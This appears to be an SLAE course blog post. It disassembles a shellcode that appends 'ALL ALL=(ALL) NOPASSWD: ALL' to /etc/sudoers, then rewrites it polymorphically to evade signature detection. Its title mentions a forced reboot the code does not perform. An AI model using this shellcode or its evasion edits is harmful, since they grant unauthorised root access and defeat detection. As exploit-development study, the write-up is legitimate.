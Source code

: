 ```yaml
---
layout: post
title: SLAE 6.3 - Shell-Storm Polymorphism - force reboot
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

The 3rd shellcode we will try to make a polymorphic version of will be:\
http://shell-storm.org/shellcode/files/shellcode-62.php\
The length is 86 bytes giving us a maximum of 129 bytes.

Let's chec the shellcode:
```nasm
echo -ne "\x31\xc0\x50\x68\x6f\x65\x72\x73\x68\x2f\x73\x75\x64\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xb0\x05\xcd\x80\x89\xc3\x31\xc0\x50\x68\x41\x4c\x4c\x0a\x68\x57\x44\x3a\x20\x68\x50\x41\x53\x53\x68\x29\x20\x4e\x4f\x68\x28\x41\x4c\x4c\x68\x41\x4c\x4c\x3d\x68\x41\x4c\x4c\x20\x89\xe1\xb2\x1c\xb0\x04\xcd\x80\xb0\x06\xcd\x80\x31\xdb\xb0\x01\xcd\x80" | ndisasm -u -
00000000  31C0              xor eax,eax
00000002  50                push eax
00000003  686F657273        push dword 0x7372656f
00000008  682F737564        push dword 0x6475732f
0000000D  682F657463        push dword 0x6374652f     ; /etc/sudoers
00000012  89E3              mov ebx,esp
00000014  66B90104          mov cx,0x401
00000018  B005              mov al,0x5
0000001A  CD80              int 0x80                  ; call open
0000001C  89C3              mov ebx,eax
0000001E  31C0              xor eax,eax
00000020  50                push eax
00000021  68414C4C0A        push dword 0xa4c4c41
00000026  6857443A20        push dword 0x203a4457
0000002B  6850415353        push dword 0x53534150
00000030  6829204E4F        push dword 0x4f4e2029
00000035  6828414C4C        push dword 0x4c4c4128
0000003A  68414C4C3D        push dword 0x3d4c4c41
0000003F  68414C4C20        push dword 0x204c4c41       ; ALL ALL=(ALL) NOPASSWD: ALL\n
00000044  89E1              mov ecx,esp
00000046  B21C              mov dl,0x1c
00000048  B004              mov al,0x4
0000004A  CD80              int 0x80                     ; call write
0000004C  B006              mov al,0x6
0000004E  CD80              int 0x80                     ; call close
00000050  31DB              xor ebx,ebx
00000052  B001              mov al,0x1
00000054  CD80              int 0x80                      ; call exit
```
So we have push "/etc/sudoers", call open\
Push "ALL ALL=(ALL) NOPASSWD: ALL\n", call write

call close, call exit.  Looks good!  Let's start our attempt at polymorphic code.

So let's 0 out eax and push it to the stack.  We are going to subtract eax from itself to get 0, we will move that value to the stack pointer and update the stack pointer ourselves.
```nasm
sub eax, eax
sub esp, 4
mov [esp], eax
```
Next we will push "/etc/sudoers" to the stack and update ebx to the stack pointer.
```nasm
push word 0x7372
push word 0x656f
push word 0x6475
push word 0x732f
push dword 0x6374652f
sub ebx, ebx
add ebx, esp
```
Setting up ecx and eax, 
```nasm
and ecx, eax
add cx, 0x401
add al, 0x5
int 0x80
```
Next we move the return value into ebx 0 out eax push the null value, then we will break up the PASS in our stack string hoping it will break up any detection on the string.\
```nasm
xchg ebx, eax
sub eax, eax
sub esp, 4
mov [esp], eax
push dword 0xa4c4c41
push dword 0x203a4457
push word 0x5353
push word 0x4150
push dword 0x4f4e2029
push dword 0x4c4c4128
push dword 0x3d4c4c41
push dword 0x204c4c41
sub ecx, ecx
add ecx, esp
```
Next we need to set up the rest of the args, edx and eax then make the call.\
My edx was not zero'd out here and would not work without adding an instruction to make sure edx = 0x1c
```nasm
xor edx, edx
mov dl, 0x1c
add al, 0x4
int 0x80
```
Then we need to update al for the close call.
```nasm
mov al, 0x6
int 0x80
```
Last call we need to zero out ebx and make eax = 1.
```nasm
mov al, 0x1
sub ebx, ebx
int 0x80
```
Here is the final outcome:
```nasm
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0x7372656f                   push word 0x7372
                                        push word 0x656f
push dword 0x6475732f                   push word 0x6475
                                        push word 0x732f
push dword 0x6374652f                   push dword 0x6374652f   
mov ebx,esp                             sub ebx, ebx
                                        add ebx, esp
mov cx,0x401                            and ecx, eax
                                        add cx ,0x401
mov al,0x5                              add al, 0x5
int 0x80                                int 0x80                
mov ebx,eax                             xchg ebx, eax
xor eax,eax                             sub eax, eax
push eax                                sub esp, 0x4
                                        mov [esp], eax
push dword 0xa4c4c41                    push dword 0xa4c4c41
push dword 0x203a4457                   push dword 0x203a4457
push dword 0x53534150                   push word 0x5353
                                        push word 0x4150
push dword 0x4f4e2029                   push dword 0x4f4e2029
push dword 0x4c4c4128                   push dword 0x4c4c4128
push dword 0x3d4c4c41                   push dword 0x3d4c4c41
push dword 0x204c4c41                   push dword 0x204c4c41
mov ecx,esp                             sub ecx, ecx
                                        add ecx, esp
mov dl,0x1c                             xor edx, edx
                                        mov dl, 0x1c
mov al,0x4                              add al, 0x4
int 0x80                                int 0x80
mov al,0x6                              mov al, 0x6
int 0x80                                int 0x80
xor ebx,ebx                             mov al, 0x1
mov al,0x1                              sub ebx, ebx
int 0x80                                int 0x80
```
Our total length of the new shellcode is 113 bytes!
